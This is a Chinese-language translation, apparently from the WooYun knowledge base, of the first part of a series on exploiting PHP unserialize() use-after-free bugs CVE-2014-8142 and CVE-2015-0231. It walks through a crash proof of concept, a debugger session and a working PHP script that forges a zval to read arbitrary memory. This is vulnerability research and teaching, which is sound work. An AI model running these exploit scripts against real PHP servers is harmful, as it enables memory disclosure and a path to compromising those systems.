









# PHP 中的内存破坏漏洞利用（CVE-2014-8142 和 CVE-2015-0231）（连载之第一篇）

2015/02/10 10:14 | [Chuck](http://drops.wooyun.org/author/Chuck "由 Chuck 发布") | [二进制安全](http://drops.wooyun.org/category/binary "查看 二进制安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 前言

* * *

作者：Cigital 公司的安全顾问 Qsl1pknotp

题目：Exploiting memory corruption bugs in PHP (CVE-2014-8142 and CVE-2015-0231) Part 1

地址：http://www.inulledmyself.com/2015/02/exploiting-memory-corruption-bugs-in.html

很多人都认为，对基于 Web 的应用程序来说，内存崩溃类 bug 不是什么严重问题。尤其现在 XSS 和 SQL 注入类漏洞仍然大行其事的情况下，不会有多少注意力投入到这类 bug 中，它们会被当做“不可利用”或者被直接无视。然而，假如攻击成功，利用这类漏洞进行攻击所导致的结果将远远超出 SQL 注入以及 XSS，因为：

```
1\. 攻击者将得到有保证的系统访问权。
2\. 将会很难识别恶意攻击数据流量。
3\. 需要维护者/供应商提供专门补丁，并且只能希望修补得没有问题。 
```

接下来笔者将发表三篇该系列攻击的文章，本文是其中的首篇。该系列将从 CVE-2014-8142 的利用开始讲起、然后是远程任意信息泄露、最后以获取 PHP 解释器的控制权结束。Stefan Esser（@i0n1c）是这两个 CVE 的原作者，并且是在 2010 年 Syscan 上第一个讲解如何控制 PHP 解释器（被称为“ret2php”）的。

## 0x01 漏洞起源

* * *

这一切都始于 2004 年，Esser 在 unserialize()函数中发现的一个 Use After Free 漏洞。这是一个 Hardened-PHP（译者注：如果项目中，服务器的安全性是最重要的，就可以称为是 Hardened-PHP）项目的一部分，没有任何代码公开。2010 年，Esser 又在 SPLObjectStorage 的 unserialize()中发现另一个 User After Free，这个漏洞直接产生了 Syscan 会上的一个发言，跟第一次漏洞一样，本次也没有代码公开。最后，CVE-2014-8142 被发现，又被打补丁，但是因为补丁没打好，又导致了 CVE-2015-0231。

幸运的是，这次 Stefan 终于给出了一个可令 PHP 解释器产生故障的 POC。下面的代码就会导致有此漏洞的 PHP 解释器出现问题。

```
<?php
for ($i=4; $i<100; $i++) {
  var_dump($i);

  $m = new StdClass(); 
  $u = array(1); 
  $m->aaa = array(1,2,&$u,4,5);

  $m->bbb = 1;
  $m->ccc = &$u;
  $m->ddd = str_repeat("A", $i); 
  $z = serialize($m);
  $z = str_replace("bbb", "aaa", $z);

  var_dump($z);

  $y = unserialize($z);

  var_dump($y);
}
?>

```

source: [StefanEsser_Original_POC](https://gist.github.com/tmm08a/d07bfcb4eca90a6d3926#file-stefanesser_original_poc)

## 0x02 漏洞分析利用

* * *

下面来解释下 POC 是如何工作的：我们通过重新添加“aaa”对象的值（不同值），来更新对象“aaa”，然而“ccc”对象其实还是指向原始“aaa”对象中的某一个值。

既然我们已经在顶层实现上知道了它的工作原理，接下来就让我们一起试着找到问题的罪魁祸首吧。我们在 process_nested_data 函数中寻找，快速浏览一下，会发现一段特定的代码：



让我们一起跟进脚本中来确定真正发生了什么。我们将断点断在 var_unserializer.c 的第 337 行来看一下（此处位于 process_nested_data 函数内）。



继续运行，跟过下面的代码：

```
<?php
$data ='O:8:"stdClass":3:{s:3:"aaa";a:5:{i:0;i:1;i:1;i:2;i:2;s:39:"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";i:3;i:4;i:4;i:5;}s:3:"aaa";i:1;s:3:"ccc";R:5;}';
$x = unserialize($data);
var_dump($x);
?>

```

source:[StefanEsser_Original_LocalMemLeak.php](https://gist.github.com/tmm08a/686d3f78a44c8ea80fd0#file-stefanesser_original_localmemleak-php)

运行上面的脚本，断点第一次命中时跳过，第二次命中时，执行下面的查看命令：

```
printzv *(var_entries)var_hash->first

```



可以看到地址的一个数组，这些地址指向 unserialize()函数解析的变量值。我们感兴趣的是第五个 0xb7bf87c0（我们上面 php 代码中用的是 R:5）。既然已经得到地址，我们就去看一下内容，然后步过该断点并继续运行。



已经调用完该可疑函数，接下来重新看一下刚才我们选定的地址中出现了什么内容：



成功搞定！当然，还需要确认下该地址是否还在 var_hash 表中，然后继续运行。



果然还在，继续：



Sweet！已经可以泄露前面地址中的数据了。我们现在已经可以成功泄露出之前所提供字串的长度，但这其实没什么意思。那么能不能泄露出任意内存数据呢？下面就是你想要的代码：

```
<?php

$fakezval = pack(
    'IIII',     //unsigned int
    0x08048000, //address to leak
    0x0000000f, //length of string
    0x00000000, //refcount
    0x00000006  //data type NULL=0,LONG=1,DOUBLE=2,BOOL=3,ARR=4,OBJ=5,STR=6,RES=7
);
//obj from original POC by @ion1c
$obj = 'O:8:"stdClass":4:{s:3:"aaa";a:5:{i:0;i:1;i:1;i:2;i:2;a:1:{i:0;i:1;}i:3;i:4;i:4;i:5;}s:3:"aaa";i:1;s:3:"ccc";R:5;s:3:"ddd";s:4:"AAAA";}';
$obj=unserialize($obj);

for($i = 0; $i < 5; $i++) { //this i value is larger than usually required
    $v[$i]=$fakezval.$i; //repeat to overwrite
}
//due to the reference being overwritten by our loop above, leak memory
echo $obj->ccc;
?>

```

source: [PHPLeak](https://gist.github.com/tmm08a/4c3130001a258e45d39f#file-phpleak)

下面是输出数据：



我们这里做的操作是非常简单的（希望是）。我们创建自己的 ZVAL（PHP 使用的内部数据结构）数据结构。我们定义了几个东西，使 pack（）函数获取我们的代码执行。按照顺序，它们是：

```
类型（例子中用的是 unsigned int）
地址（我们想要泄露的地址）
长度（我们想要泄露内存的长度）
参考标志（0）
数据类型（6，代表 String 类型） 
```

当然，如果我们没有伪造一个 string ZVAL 结构，这些值是会变化的。代码中的 for 循环是真正执行内存覆盖操作（覆盖之前释放掉的内存），这些操作使我们得到上述的输出数据。代码中我令循环数$i 的值大于其所需的值，只是用以确保代码的通用性，当然我测试过的大多数机器只需要 2 次就可以了，不需要执行 5 次。

好了，现在已经可以泄露随意地址数据了，让我们再一起看看 CVE-2015-0231？很简单：只需将“aaa”替换成“123”，看一下输出的数据：



## 0x03 下一步研究

* * *

通过上述过程，我们已经完成了一个可在本地泄露任意内存地址数据的 POC，且该 POC 同时适用于两个 CVE 漏洞的。我们下一步目标是仍然是数据泄露，所不同的是，将会是远程数据泄露！

敬请期待第二回，远程数据泄露！

版权声明：未经授权禁止转载 [Chuck](http://drops.wooyun.org/author/Chuck "由 Chuck 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [MS15-002 telnet 服务缓冲区溢出漏洞分析与 POC 构造](http://drops.wooyun.org/papers/4621)
*   [逆向基础（二）](http://drops.wooyun.org/tips/1931)
*   [CVE-2014-4113 漏洞利用过程分析](http://drops.wooyun.org/papers/3331)
*   [Easy RM to MP3 Converter(2.7.3.700)栈溢出漏洞调试笔记](http://drops.wooyun.org/papers/3178)
*   [关于 OpenSSL“心脏出血”漏洞的分析](http://drops.wooyun.org/papers/1381)
*   [Winrar4.x 的文件欺骗漏洞利用脚本](http://drops.wooyun.org/tips/1346)